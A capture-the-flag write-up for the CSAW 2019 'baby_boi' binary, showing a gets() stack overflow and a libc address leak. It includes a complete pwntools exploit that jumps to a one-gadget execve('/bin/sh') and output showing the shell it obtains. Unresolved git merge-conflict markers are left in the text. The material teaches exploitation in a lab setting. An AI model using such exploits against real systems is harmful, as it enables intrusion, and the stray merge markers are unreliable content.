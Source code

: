 # Csaw 2019 Babyboi

Let's take a look at the binary, libc file, and source code. For this challenge we do get a copy of it:

```
$    file baby_boi
baby_boi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e1ff55dce2efc89340b86a666bba5e7ff2b37f62, not stripped
$    pwn checksec baby_boi
[*] '/Hackery/pod/modules/8-bof_dynamic/csaw19_babyboi/baby_boi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
$    ./libc-2.27.so
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1) stable release version 2.27.
Copyright (C) 2018 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 7.3.0.
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
$    ./baby_boi
Hello!
Here I am: 0x7f995049c830
15935728
$    cat baby_boi.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv[]) {
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);

  char buf[32];
  printf("Hello!\n");
  printf("Here I am: %p\n", printf);
  gets(buf);
}
```

So we can see that the binary just prompts us for text. Looking at the source code, we see that it prints the libc address for `printf`. After that it calls `gets` on a fixed sized buffer, which gives us a buffer overflow. We can see that the `libc` version is `libc-2.27.so `. Also the only binary protection we see is NX.

## Exploitation

So to exploit this, we will use the buffer overflow. We will call a oneshot gadget, which is a single ROP gadget in the libc that will call `execve("/bin/sh")` given the right conditions. We can find this using the `one_gadget` utility (https://github.com/david942j/one_gadget):

```
$    one_gadget libc-2.27.so
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

So leveraging the libc infoleak with the `printf` statement to the libc `printf` (and that we know which libc version it is), we know the address space of the libc. For which onegadget to pick, I typically just do trial and error to see what conditions will work. You can actually check when it is called to see what conditions will be met however.

## Exploit

Putting it all together, we have the following exploit. This was ran on `Ubuntu 18.04`:
<<<<<<< HEAD
=======

>>>>>>> 62e51517054901aa0b7fd1508d70dcb095961589
```
from pwn import *

# Establish the target
target = process('./baby_boi', env={"LD_PRELOAD":"./libc-2.27.so"})
libc = ELF('libc-2.27.so')
#gdb.attach(target)

print target.recvuntil("ere I am: ")

# Scan in the infoleak
leak = target.recvline()
leak = leak.strip("\n")

base = int(leak, 16) - libc.symbols['printf']

print "wooo:" + hex(base)

# Calculate oneshot gadget
oneshot = base + 0x4f322

payload = ""
payload += "0"*0x28         # Offset to oneshot gadget
payload += p64(oneshot)     # Oneshot gadget

# Send the payload
target.sendline(payload)

target.interactive()
```

When we run the exploit:
<<<<<<< HEAD
=======

>>>>>>> 62e51517054901aa0b7fd1508d70dcb095961589
```
$    python exploit.py
[+] Starting local process './baby_boi': pid 12693
[*] '/home/guyinatuxedo/Desktop/babyboi/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Hello!
Here I am:
wooo:0x7fe0eb22e000
[*] Switching to interactive mode
$ w
 21:29:32 up 57 min,  1 user,  load average: 0.17, 0.26, 0.15
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               16Sep19 ?xdm?  47.39s  0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
$ ls
baby_boi  baby_boi.c  exploit.py  libc-2.27.so    readme.md
```
<<<<<<< HEAD
=======

## Are you getting a Segmentation fault?

Your system might not be compatible with the provided `libc` version, but you can still craft your own exploit for your `libc` version.

1. Figure out your `libc` path:

```bash
$ ldd ./baby_boi

  linux-vdso.so.1 =>  (0x00007fff3e1f3000)
  libc.so.6 => /lib/libc.so.6 (0x00007f621f162000)
  /lib64/ld-linux-x86-64.so.2 (0x00007f621f504000)
```

We can see that our `libc` sits in `/lib/libc.so.6`

2. Now we can find the `one_gadget` for your `libc` version:

```bash
$ one_gadget /lib/libc.so.6
```

3. Finally replace the exploit with your `libc` path and the new adress found through the `one_gadget`.
>>>>>>> 62e51517054901aa0b7fd1508d70dcb095961589
